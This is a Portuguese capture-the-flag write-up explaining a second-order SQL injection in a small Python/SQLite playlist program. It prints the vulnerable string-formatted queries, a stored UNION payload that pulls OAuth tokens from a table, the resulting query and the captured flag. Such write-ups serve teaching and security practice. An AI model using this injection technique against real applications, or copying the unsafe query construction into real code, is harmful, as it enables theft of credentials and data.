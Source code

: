 # Bolos e tokens

**Flag:** `Ganesh{Th3_c@K3_i5_4_L!3}`

Neste chall somos presenteados com um mini programa feito em python2 e SQLite3 que permite ao usuário 4 ações simples, sendo elas:

1. Cadastrar uma nova música na tabela media
2. Buscar músicas de um dado artista.
3. Buscar músicas por um título de busca.
4. Tocar as músicas de um artista escolhido de forma aleatória no banco.

A primeira coisa a se fazer em um cenário que já temos o script em mãos é analisar calmamente as possíveis vulnerabilidades em cada uma delas. Então por partes...

```text
if choice == '1':
    my_print("Enter the artist name:")
    artist = raw_input().replace('"', "")

    my_print("Enter the song name:")
    song = raw_input().replace('"', "")

    c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```

A opção 1 permite que nós cadastremos uma nova linha da tabela de músicas. Vemos também que há um replace que impede a inserção de aspas duplas na query. Ela, portanto, não seria vulnerável à injeções do tipo `" OR 1=1 ... --`.

```text
elif choice == '2':
    my_print("Enter the  artist name:")
    artist = raw_input().replace("'", "")

    print_playlist("""SELECT artist, song FROM media WHERE artist = '{}'""".format(artist))
```

A opção 2, assim como a 1, apresenta uma Query de busca que possui um tratamento. Esse cenário no entanto faz o tratamento de aspas simples ao invés das duplas.

```text
elif choice == '3':
    my_print("Enter the song name:")
    song = raw_input().replace("'", "")

    print_playlist("""SELECT artist, song FROM media WHERE song = '{}'""".format(song))
```

Similar à opção 2, novamente uma query de buscar porém tratando apenas as entradas com aspas simples.

```text
elif choice == '4':
    artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
    my_print("Choosing songs from '{}'".format(artist))

    print_playlist("""SELECT artist, song FROM media WHERE artist = '{}'""".format(artist))
```

Por fim, a quarta string busca um nome de artista de maneira aleatória do banco e, sem nenhuma etapa de tratamento, utiliza o dado recebido para construir outra query de busca pelas músicas.

A primeira vista, a impressão que podemos ter é a de que todas as querys estão seguras, uma vez que o criador do script preocupou-se de garantir que não seria possível inserir um fechamento de aspas em todas as opções que ocorrem inputs.

Uma das falhas dele, no entanto, foi não padronizar as aspas utilizadas nas diferentes querys do programa, permitindo ao usuário cadastrar strings com aspas simples na primeira opçao.

Vamos então cadastrar um artista e uma música com o seguinte payload:

```text
$ Enter the artist name:
$ ' UNION SELECT oauth_token, 'abc' FROM $ oauth_tokens --
$ Enter the song name:
$ nao importa
```

Pronto! Já temos agora nosso injection cadastrado no banco. Vamos analisar então as outras 3 opções restantes.

A opção 2 não nos permite fazer nada, pois não conseguiriamos buscar nosso último cadastro no banco devido ao replace da aspas simples.

A opção 3 permite buscar o dado pelo nome da música. Esse resultado, no entanto, é utilizado apenas para ser exibido na tela e também não nos ajuda.

Já a opção 4, como já foi citado, escolhe um artista no banco e o utiliza para fazer uma segunda query, e é ele que será o responsável por executar nosso payload.

Caso não tenha ficado 100% claro, basta ver que a variável artistas será carregada com o único artista do banco

```text
artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
artist = "' UNION SELECT oauth_token, 'abc' FROM oauth_tokens -- "
```

e ao concatenar esse valor na query seguinte, teremos um select com um **Union Atack**

```text
SELECT artist, song 
    FROM media 
    WHERE artist = '' 
    UNION SELECT oauth_token, 'abc' 
    FROM oauth_tokens -- '
```

Com isso somos então presentados com a nossa flag

```text
== New Playlist ==
1) Song: "abc" - Artist: "Ganesh{Th3_c@K3_i5_4_L!3}"
```

